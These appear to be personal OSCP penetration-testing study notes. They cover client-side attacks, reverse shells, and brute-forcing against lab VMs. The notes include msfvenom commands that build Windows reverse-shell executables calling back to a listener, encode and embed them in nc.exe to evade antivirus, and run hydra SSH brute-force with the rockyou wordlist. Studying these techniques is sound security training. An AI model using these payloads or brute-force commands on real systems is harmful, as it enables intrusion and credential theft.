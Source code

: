 ```yaml
---
title: OSCP Study Notes - 2021/03/11
date: 2021-03-11 22:22:05
tags: [OSCP, Study Notes, Penetration Testing]
---
```


# Fuzzing
Download [Vulnserver](https://github.com/stephenbradshaw/vulnserver)
Download [immunity debugger](https://www.immunityinc.com/products/debugger/)

...
Skip since can not setup Vulnserver on host, not safe btw

# Client Side Attack,
Need a vulnerable web browser, something like phishing  

wait for victim to visit your site

setoolkit - social engineering attack

46->2 windows reverse_TCP meterpreter, errors again... guess my host is very secure

## Java Applet Attacks


# Reverse Shell
In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s computer listens for incoming connections on a specified port.

# generate Virus
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o shell1.exe

# check options
msfvenom -p windows/shell_reverse_tcp --list-options
```
MsfVenom - a Metasploit standalone payload generator.  
-p, --payload  

# Anti Virus
virustotl, scan for virus, test if it pass anti virus

## add encoding
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o -e x86/shikata_ga_nai shell2.exe
```
About shikata ga nai encoder: https://www.boozallen.com/c/insight/blog/the-shikata-ga-nai-encoder.html

## embeded to another binary
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o -e x86/shikata_ga_nai -x /usr/share/windows-binaries/nc.exe shell3.exe
```
-x, --template

Create virus youself will make the virustotal down

## Pre-exploit password attacks
brute force attack, last resort

ncrack, medusa, hydra

wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz > ...
```

Use Kioptrix VM

```
hydra -v -l root -P rockyou.txt 192.168.0.22 ssh
```
-l login user  
ssh has log, will be detected

get conenction reset error

try to manually connect ssh, get 
```
Unable to negotiate with 192.168.0.22 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

add to ~/.ssh/config
```
Host 192.168.0.22
        KexAlgorithms +diffie-hellman-group1-sha1
        Ciphers +aes128-cbc
```

add `-c` to wait for 1s between each retry  
the  wait time in seconds per login attempt over all threads  


### Metasplit brute force
```
use auxiliary/scanner/ssh/ssh_login
```
